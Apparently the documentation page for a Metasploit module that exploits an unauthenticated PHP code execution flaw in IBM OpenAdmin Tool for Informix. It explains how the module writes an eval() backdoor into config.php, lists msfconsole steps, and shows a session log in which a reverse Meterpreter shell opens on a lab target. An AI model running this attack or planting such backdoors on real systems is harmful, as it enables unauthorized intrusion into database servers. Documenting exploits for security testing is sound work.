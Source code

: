 ## Description

  This module exploits an unauthenticated remote PHP code execution vulnerability in [IBM OpenAdmin Tool](https://www.ibm.com/support/knowledgecenter/SSGU8G_12.1.0/com.ibm.oat.doc/ids_oat.htm) included with IBM Informix versions 11.5, 11.7, and 12.1.

  The *welcomeServer* SOAP service does not properly validate user input in the *new_home_page* parameter of the *saveHomePage* method allowing arbitrary PHP code to be written to the *config.php* file. The *config.php* file is executed in most pages within the application, and accessible directly via the web root, resulting in code execution.

  **Note: If malformed PHP code is written to the *config.php* file the application fails to process subsequent requests to set *new_home_page*, rendering the application unexploitable.**

  For this reason, the module first writes a PHP `eval()` backdoor to the *config.php* file, then the payload is provided as PHP code in a HTTP POST request for execution.

  By default, a backup of the existing *config.php* is written to *BAKconfig.php*. Replacing the *config.php* file with *BAKconfig.php* will remove the backdoor.


## Vulnerable Application

  The IBM&reg; OpenAdmin Tool (OAT) for Informix&reg; is a web application for administering and analyzing the performance of IBM Informix database servers. You can administer multiple database server instances from a single OAT installation on a web server. You can access the web server through any browser to administer all your database servers.

  This module has been tested successfully on IBM OpenAdmin Tool 3.14 on Informix 12.10 Developer Edition (SUSE Linux 11) virtual appliance.

  * [Informix 12.10 Developer Edition SLES 11 virtual appliance demo (Developer Edition 32 bit) VMware Workstation](https://www-01.ibm.com/marketing/iwm/iwm/web/reg/download.do?source=swg-informixfpd&S_PKG=dl&lang=en_US&cp=UTF-8&dlmethod=http)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `exploit/multi/http/ibm_openadmin_tool_soap_welcomeserver_exec`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should get a session


## Scenarios

### IBM OpenAdmin Tool 3.14 on Informix 12.10 Developer Edition (SUSE Linux 11) Virtual Appliance

  ```
  msf exploit(ibm_openadmin_tool_soap_welcomeserver_exec) > check
  [*] 172.16.191.208:80 The target service is running, but could not be validated.
  msf exploit(ibm_openadmin_tool_soap_welcomeserver_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [+] 172.16.191.208:80 Wrote backdoor to config.php file successfully
  [*] Sending stage (33986 bytes) to 172.16.191.208
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.208:39840) at 2017-05-31 08:01:49 -0400
  [!] 172.16.191.208:80 Replace the 'config.php' file with 'BAKconfig.php' to remove the backdoor

  meterpreter > sysinfo
  Computer    : informixva
  OS          : Linux informixva 2.6.27.39-0.3-vmi #1 SMP 2009-11-23 12:57:38 +0100 i686
  Meterpreter : php/linux
  meterpreter > getuid 
  Server username: daemon (2)
  meterpreter > 
  ```

